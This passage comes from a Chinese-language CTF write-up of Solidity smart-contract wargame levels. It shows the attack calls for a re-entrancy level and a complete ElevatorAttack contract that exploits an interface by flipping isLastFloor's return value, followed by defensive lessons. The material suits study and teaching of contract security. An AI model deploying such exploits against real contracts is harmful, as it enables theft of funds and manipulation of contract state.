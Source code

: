 ```js
await contract.donate{value: 1 ether}();
```
3. 调用 `attack()` 函数，发起攻击
```js
await attackContract.attack(1 ether);
```

学习要点：
- 理解 re-entrancy 的机制
- 使用现代的合约框架（如 OpenZeppelin 的 ReentrancyGuard）来实现安全重入控制

## 11. Elevator ✅ [Easy]

这关主要考察对interface的理解：
- interface 是 Solidity 中的一种抽象合约，用于定义合约的函数签名，但不包含实现代码。
- 攻击者可以利用实现 interface 的合约但是使用含有攻击的function来获取合约的控制权

攻击步骤：
1. 主要是实现了interface的攻击合约的编写
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Elevator.sol";

contract ElevatorAttack is Building {
    Elevator public target;
    bool public toggle;

    constructor(address _target) public {
        target = Elevator(_target);
    }

    function isLastFloor(uint) external override returns (bool) {
        toggle = !toggle; // 切换返回值
        return toggle;
    }

    function attack(uint _floor) public {
        target.goTo(_floor);
    }
}
```

学习要点：
- 限制接口调用者: 验证调用者是否为可信合约或特定地址。
- 使用 require 检查 msg.sender
```solidity
require(msg.sender == trustedAddress, "Unauthorized caller");
```
- 逻辑验证: 避免完全依赖外部合约的返回值，加入内部验证逻辑。


## 12. Privacy ✅ [Easy]
